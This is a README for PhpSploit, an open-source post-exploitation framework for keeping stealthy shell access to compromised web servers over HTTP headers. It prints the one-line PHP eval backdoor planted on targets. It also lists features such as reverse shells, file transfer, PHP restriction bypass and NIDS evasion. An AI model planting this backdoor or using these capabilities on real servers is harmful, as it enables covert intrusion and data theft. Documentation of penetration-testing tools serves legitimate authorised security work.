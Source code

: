 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and web server's responses, tunneled through
a tiny **polymorphic backdoor**:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

---------------------------------------------------------------------
#### Features ####

1. **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

2. **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common PHP security restrictions bypass
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to **bypass NIDS**
    - HTTP/HTTPS Proxy support

3. **Convenient**: A robust interface with many crucial features
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature, with commands history saving
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a polymorphic mode
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


[picture]: https://raw.githubusercontent.com/nil0x42/phpsploit/destiny/data/img/phpsploit-demo.png
